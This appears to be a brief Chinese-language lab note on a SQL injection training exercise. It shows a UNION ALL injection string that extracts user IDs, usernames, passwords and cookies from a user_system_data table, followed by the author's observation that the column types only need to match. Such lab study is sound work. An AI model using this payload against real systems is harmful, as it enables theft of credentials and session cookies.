 ### 1.1 联表查询

> [!note] 
> 补充：可以查看提示！
> ![](../images/Pasted%20image%2020241111090721.png)

直接增加select语句

![](../images/2024-11-06-10-15-20-image.png)

union

`Dave' UNION ALL  SELECT userid, NULL AS first_name, user_name as last_name,  NULL AS cc_number, password AS cc_type, cookie, NULL AS login_count FROM user_system_data where '1'='1`

![](../images/2024-11-06-10-53-02-image.png)

自己建表试了一下，只需要每个输出的属性类型对应上，各输出各的

难道userdata没有信息吗？

![](../images/2024-11-06-10-52-23-image.png)
